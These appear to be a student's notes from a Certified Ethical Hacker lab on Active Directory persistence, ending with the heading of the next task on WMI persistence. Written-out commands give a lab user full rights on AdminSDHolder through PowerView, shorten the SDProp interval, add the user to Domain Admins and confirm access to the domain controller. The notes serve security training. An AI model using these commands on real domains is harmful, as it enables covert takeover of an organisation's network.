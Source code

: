 As we have access to PowerShell access with admin privileges, we can add a standard user **Martin** in the CEH domain to the **AdminSDHolder** directory and from there to the **Domain Admins** group, to maintain persistence in the domain.

	cd c:\users\administrator\downloads\powerview
	Import-Module ./powerview.psm1
	Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All
	Get-ObjectAcl -SamAccountName "Martin” -ResolveGUIDs  -> Martin now has GenericaALL active directory rights

Normally the changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes.

	REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300

Note: Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.

	[Windows server 2022]
	Server Manager
	Tools -> Active Directory Users & Computers
	VIew -> Advanced Features
	Expand CEH.com -> System nodes + Right click on AdminSDHolder -> select Properties -> Security tab -> Can Marin added with full access
will take 3 mints to add user Margin as a member in the directory.

	[parrot] add Martin to Domain Admins group as he is already having all the permissions.
	net group "Domain Admins" Martin /add/domain

	[Windows server 22]
	Active Directory Users and Computers window, click on Users folder right-click on Martin J user name and click on properties.
	Member Of tab -> can see Martin user is successfully added to Domain Admins group
verify if the domain controller is now accessible to the user Martin and domain persistence has been established.

	signout
	Othe user -> CEH\Martin\apple
	powershell window
	dir \\10.10.1.22\C$
Note: If a **Server Manager** window appears close it.
Domain Controller is now accessible to **Martin** and thus domain persistence has been established.
Apart from the aforementioned PowerView commands, you can also use the additional commands in the table below to extract sensitive information such as users, groups, domains, and other resources from the target AD environment:
![[Pasted image 20231125165906.png]]
Restart Windows and parrot

---------
- Task 8: Privilege escalation and maintain persistence using WMI
  WMI (Windows Management Instrumentation) event subscription can be used to install event filters, providers, and bindings that execute code when a defined event occurs. It enables system administrators to perform tasks locally and remotely.
